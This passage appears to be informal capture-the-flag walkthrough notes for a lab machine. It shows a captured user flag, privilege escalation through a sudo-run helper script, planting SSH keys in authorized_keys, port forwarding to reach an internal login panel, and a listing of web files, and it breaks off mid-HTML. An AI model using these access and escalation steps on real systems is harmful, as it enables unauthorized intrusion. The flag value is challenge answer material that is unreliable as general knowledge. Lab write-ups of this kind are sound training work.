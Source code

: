 ```
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
cat /home/apaar/local.txt
cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}


It is possible to become apaar with this script

# i am apaar now


sudo /home/apaar/.helpline.sh -q /dev/null

In /home/apaar/.ssh folder there is a file authorized_keys with private key of root


ssh -i authorized_keys root@localhost -p 9001

# We create ssh keys for appar `ssh-keygen apaar` on local machine, and then add .pub to authorized_keys on server where we have shell, and then 

ssh -L 9001:127.0.0.1:9001 -i apaar apaar@10.10.32.71

-L -----> forwarding

to connect to server directly and be able to access `localhost:127.0.0.1` from local machine

where there is a login panel with user / pass to type in

# Besides, there is a folder `cd /var/www/files`

apaar@ubuntu:~$ cd /var/www/files
apaar@ubuntu:/var/www/files$ ls
account.php  hacker.php  images  index.php  style.css
apaar@ubuntu:/var/www/files$ ls -lah
total 28K
drwxr-xr-x 3 root root 4.0K Oct  3 04:40 .
drwxr-xr-x 4 root root 4.0K Oct  3 04:01 ..
-rw-r--r-- 1 root root  391 Oct  3 04:01 account.php
-rw-r--r-- 1 root root  453 Oct  3 04:02 hacker.php
drwxr-xr-x 2 root root 4.0K Oct  3 06:30 images
-rw-r--r-- 1 root root 1.2K Oct  3 04:02 index.php
-rw-r--r-- 1 root root  545 Oct  3 04:07 style.css
apaar@ubuntu:/var/www/files$ cat hacker.php
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
        color:red;
        font-weight: bold;
}
h1
{
        color: yellow;
        font-weight: bold;
}
</style>
<center>
```